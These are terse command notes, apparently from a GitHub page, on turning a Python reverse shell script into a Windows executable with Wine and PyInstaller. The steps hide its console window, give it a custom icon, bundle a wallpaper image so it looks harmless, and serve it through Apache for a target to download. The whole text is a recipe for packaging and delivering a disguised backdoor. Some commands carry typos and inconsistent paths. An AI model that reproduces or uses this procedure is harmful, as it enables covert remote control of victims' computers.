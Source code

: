 Install Wine to convert .py to.exe

dpkg --add-architecure i386
apt-get update
sudo apt-get install wine32
winecfg
cd /root/.wine/

# Download Python
# Install x86 version on Linux
cd /root/Downloads
wine msiexec /i python.2.7.14.msi

wine /home/esmith/.wine/drive_c/python27/python.exe -m pip install pyinstaller

# Install required Python libraries
wine /home/esmith/.wine/drive_c/python27/python.exe -m pip install requests
wine /home/esmith/.wine/drive_c/python27/python.exe -m pip install mss

# Convert Python to .exe
wine /home/esmith/.wine/drive_c/Python27/Scripts/pyinstaller.exe --onefile --noconsole rs.py

ls


# Use Apache for file transfer
mv python.exe /var/www//html
sudo service apache2 start
# Delete index.html if required
# Hit URL

# Change icon in compile
Download ico from web
wine /home/esmith/.wine/drive_c/Python27/Scripts/pyinstaller.exe --onefile --noconsole --icon /path/to/my.ico reverseshell.py

# Embed to wallpaper
Download wallpaper
wine /home/esmith/.wine/drive_c/Python27/Scripts/pyinstaller.exe --add-data "/path/to/wallpaper.jpg;." --onefile --noconsole --icon /path/to/my.ico reverseshell.py